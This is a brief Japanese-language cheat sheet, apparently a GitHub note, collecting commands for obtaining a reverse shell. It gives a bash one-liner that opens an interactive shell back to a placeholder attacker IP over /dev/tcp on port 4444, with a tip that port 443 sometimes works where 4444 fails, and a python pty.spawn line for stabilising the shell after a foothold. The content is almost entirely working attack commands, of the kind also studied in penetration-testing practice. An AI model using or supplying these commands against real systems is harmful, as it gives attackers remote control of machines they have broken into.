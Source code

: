 # reverse shell取得のためのスクリプトまとめ

1. 安定するが、root権限ないと動かないこともある。また、経験上4444だとダメで443だといける？みたいなケースがあった。
```.sh
bash -c "bash -i >& /dev/tcp/<attacker IP>/4444 0>&1"
```

2. footholdを取った後にシェルを安定させることができる。
```
python -c 'import pty;pty.spawn("/bin/sh")'
```